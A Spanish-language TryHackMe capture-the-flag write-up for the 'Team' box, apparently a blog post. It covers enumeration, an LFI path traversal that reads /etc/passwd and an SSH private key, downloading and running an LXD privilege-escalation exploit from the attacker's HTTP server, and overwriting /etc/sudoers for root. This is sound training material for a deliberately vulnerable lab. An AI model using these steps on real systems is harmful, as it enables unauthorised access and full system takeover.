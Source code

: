 ```yaml
---
layout: single
title: Team - TryHackMe
excerpt: " A beginner friendly box that teaches the importance of doing your enumeration well. It starts of by finding a virtual host(vhost) that leads you to a dead end(a bootstrap themed webpage). "
date: 2023-01-29
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-team/team.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:
  - subdomain
  - source
  - lfi
  - lxd
  - docker
---
```


A beginner friendly box that teaches the importance of doing your enumeration well. It starts of by finding a virtual host(vhost) that leads you to a dead end(a bootstrap themed webpage).

# Summary
- IP: 10.10.14.180
- Ports: 21,22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  21 -> vsftpd 3.0.3
	-  22 -> OpenSSH 7.6p1 Ubuntu
	-  80 -> Apache httpd 2.4.29
# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.14.180 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p21,22,80 -sCV 10.10.14.180 -oN targeted
```

- Análisis de directorios con gobuster:

```bash
$gobuster dir -u 10.10.14.180 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```

# Análisis de página web:

- Analizamos la página web, vemos la página principal de apache, revisamos el código fuente y vemos la siguiente linea:

```html
<title>Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!</title>
```

- Lo cual nos sugiere la existencia de Virtual Hosting, agregamos la dirección "team.thm" al archivo "/etc/hosts" y entramos al mismo para buscar posibles vectores de ataque.

- Buscamos directorios posibles con gobuster y encontramos uno interesante "/scripts" al cual no tenemos acceso, buscamos en ese directorio:

```bash
$gobuster dir -u http://team.thm/ -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 100

$gobuster dir -u http://team.thm/scripts -w /home/dante/SecLists/Discovery/Web-Content/common.txt -t 100 -x txt,js
```

- Encontramos un archivo "script.txt" lo leemos:

```
#!/bin/bash
read -p "Enter Username: " REDACTED
read -sp "Enter Username Password: " REDACTED
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit

#Updated version of the script
#Note to self had to change the extension of the old "script" in this folder, as it has creds in
```

- En la linea final podemos ver que nos dice la existencia de un archivo "script.old" el cual debería tener credenciales, lo abrimos y encontramos las credenciales del usuario "ftpuser", accedemos por FTP.

- ftp 10.10.14.180

- Enumeramos los recursos, vemos un directorio "workshare" el cual contiene un archivo "New_site.txt" lo descargamos y lo leemos:

```
Dale
I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.
Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.
Gyles 
```

- Enumeramos posibles usuarios "Dale, Gyles", también nos dice de la existencia de un subdominio "dev" y que hay un backup de la clave privada SSH del usuario  "Dale" en "archivo de configuración", entramos a "dev.team.thm" previamente agregándolo al "/etc/hosts" y vemos una página no terminada con un link el cual nos redirige a un recurso php, el link se ve así:

```
http://dev.team.thm/script.php?page=teamshare.php
```

- Nos damos cuenta que el archivo "script.php" está apuntando al archivo "teamshare.php" mediante el parámetro "page", intentamos apuntar a otro archivo del sistema para comprobar si existe un LFI:

```
http://dev.team.thm/script.php?page=../../../etc/passwd
```

- Y efectivamente nos muestra lo que contiene el archivo "/etc/passwd", así que hacemos una enumeración de recursos que nos permitan ganar acceso a la máquina; anteriormente habíamos leido que existe un backup de una clave privada SSH en un "archivo de configuración", así que enumeramos en los posibles archivos de configuración de SSH:

```
http://dev.team.thm/script.php?page=../../../etc/ssh/sshd_config
```

- Encontramos una id_rsa, la guardamos en nuestro equipo, le damos permiso de ejecución y la usamos para entrar por SSH como el usuario "dale":

```bash
$nano id_rsa
$chmod 600 id_rsa
$ssh -i id_rsa dale@10.10.14.180
```

- Hemos ganado acceso al sistema como "dale" y podremos ver la primera flag.


# ESCALANDO PRIVILEGIOS:

- Vemos los grupos a los que pertenece el usuario "dale":

```
$id
```

- Identificamos el grupo "lxd" el cual tiene una vulnerabilidad que podemos encontrar con:

```
$searchsploit lxd
```

- Para explotar dicha vulnerabilidad seguimos los pasos descritos en la script:

```
# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine
```

- Descargamos "build-alpine"

- La desplegamos con el comando de la segunda linea y se nos generará un archivo .tar.gz

- Nos abrimos un servidor http con python para transferir la script y el archivo .tar.gz a la máquina victima:

```bash
$python3 -m http.server 80
```

```bash
$wget 10.18.101.123:80/exploit.sh
$wget 10.18.101.123:80/alpine-v3.17-x86_64-20230128_1210.tar.gz
$chmod +x exploit.sh
```

- Ejecutamos la script:

```bash
$./exploit.sh -f alpine-v3.17-x86_64-20230128_1210.tar.gz
```

- Nos dirigimos al directorio "/mnt/root" y tendremos acceso total a todos los archivos del sistema de la máquina víctima, pero aún estamos en un contenedor por medio de una montura, para tener acceso a la máquina real, modificamos el archivo "/etc/sudoers" para que podamos ejecutar cualquier comando como root:

```
$rm /etc/sudoers

$vi /etc/sudoers
```

```
ALL ALL=(ALL) NOPASSWD: ALL
```

- Guardamos el archivo, y salimos de la montura con "exit".

- Ahora en la máquina real podremos ejecutar cualquier cosa como root, así que hacemos un "sudo su" y seremos root.

